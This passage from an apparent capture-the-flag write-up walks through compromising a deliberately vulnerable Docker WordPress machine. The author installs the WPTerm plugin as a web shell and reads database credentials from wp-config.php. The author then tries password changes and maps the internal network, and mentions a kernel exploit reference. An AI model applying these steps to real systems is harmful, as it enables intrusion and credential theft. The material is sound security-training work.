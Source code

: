 Voilà! We’ve got access to WordPress [admin panel](http://ctf:8000/wp-admin/).

![Wordpress admin panel](/assets/blog/vulnerable-docker-vm/ctf4.png)

Just by clicking here and there, I found the first flag:

![First flag](/assets/blog/vulnerable-docker-vm/ctf5.png)

It is time to install some shell. [WPTerm](http://ctf:8000/wp-admin/plugin-install.php?tab=plugin-information&plugin=wpterm&TB_iframe=true&width=772&height=921) is very nice:

![WPTerm plugin for Wordpress](/assets/blog/vulnerable-docker-vm/ctf6.png)

Apparently, there is the [exploit](https://www.exploit-db.com/exploits/33824/) for Linux 3.13. That’s encouraging, especially if you have **gcc** on the system, but let’s keep easy track for now.

Database credentials:

```sh
www-data:/var/www/html $ grep DB_ wp-config.php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'WordPressISBest');
define('DB_HOST', 'db:3306');
```

Trying to reset password for www-data user, no luck:

```sh
www-data:/var/www/html $ echo 123 | passwd www-data
(current) UNIX password: passwd: Authentication token manipulation error
passwd: password unchanged
Changing password for www-data.
www-data:/var/www/html $ echo "www-data:123" | chpasswd
chpasswd: (user www-data) pam_chauthtok() failed, error:
Authentication token manipulation error
chpasswd: (line 1, user www-data) password not changed
Changing password for www-data.
```

Let’s explore local network:

```shell
www-data:/var/www/html $ ip r
default via 172.18.0.1 dev eth0
172.18.0.0/16 dev eth0  proto kernel  scope link  src 172.18.0.4
www-data:/var/www/html $ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
9: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:12:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.4/16 scope global eth0
       valid_lft forever preferred_lft forever
www-data:/var/www/html $ cat /etc/resolv.conf
nameserver 127.0.0.11
options ndots:0
www-data:/var/www/html $ ss -ntp
State      Recv-Q Send-Q        Local Address:Port          Peer Address:Port
ESTAB      0      0                172.18.0.4:80            192.168.2.12:50078
ESTAB      0      0                172.18.0.4:54418           172.18.0.3:3306   users:(("ss",pid=169,fd=14))
```
